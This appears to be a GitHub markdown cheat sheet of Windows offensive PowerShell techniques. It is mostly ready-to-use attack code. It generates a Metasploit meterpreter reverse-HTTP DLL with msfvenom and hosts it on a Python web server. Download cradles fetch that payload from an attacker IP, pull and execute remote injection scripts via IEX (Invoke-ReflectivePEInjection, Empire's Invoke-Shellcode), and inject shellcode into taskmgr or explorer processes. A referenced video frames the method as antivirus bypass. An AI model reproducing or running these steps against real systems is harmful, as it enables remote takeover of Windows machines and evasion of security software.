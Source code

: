 # Windows

## 01 - Powershell Scripts

### 1.1 - Reflective DLL Injection

#### 1.1.1 - Simple Reflective DLL Injection

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 exitfunc=thread -f dll -o shellcode.dll

$ sudo python -m http.server 80
```

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe

$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode.dll"))

IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))

$procid = (Get-Process -Name taskmgr).Id

Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#### 1.1.2 - Reflective DLL Injection with encoded base64 shellcode DLL

TODO: Figure out the base64 encoding problem with DLL files

```
$ msfvenom -p windows/x64/meterpreter/reverse_http lhost=<IP> lport=80 EXITFUNC=thread -f dll -o shellcode.dll

$ pwsh

PS /home/user> $file = 'shellcode.bin'

PS /home/user> [byte[]] $raw_bytes = [IO.File]::ReadAllBytes($file)

PS /home/user> $encoded = [Convert]::ToBase64String($raw_bytes)

PS /home/user> [IO.File]::WriteAllBytes('shellcode-encodedb64.txt', $encoded)

PS /home/user> exit

$ sudo python -m http.server 80
```

`$ cat download-cradle.ps1`

---

```powershell
Start-Process -WindowStyle hidden -FilePath taskmgr.exe  
  
$bytes = ((New-Object Net.WebClient).DownloadData("http://<IP>/shellcode-encodedb64.txt"))  
  
$decoded = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($bytes))  
  
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/charnim/Invoke-ReflectivePEInjection.ps1/main/Invoke-ReflectivePEInjection.ps1"))  
  
$procid = (Get-Process -Name taskmgr).Id  
  
Invoke-ReflectivePEInjection -PEBytes $decoded -ProcId $procid
```

### 1.2 - Invoke-Shellcode

```powershell
IEX((New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/main/empire/server/data/module_source/code_execution/Invoke-Shellcode.ps1"))

$procid = (Get-Process -Name explorer).Id

Invoke-Shellcode -ProcessId $procid -Shellcode @(<ps1_shellcode_format>)
```

## References

- [Invoke-ReflectivePEInjection](https://github.com/charnim/Invoke-ReflectivePEInjection.ps1)

- [Adamn Chester (XPN) YouTube Video: Bypass AV with Invoke-ReflectivePEInjection](https://www.youtube.com/watch?v=byMBx4q-vYo)

- [sRDI](https://github.com/monoxgas/sRDI)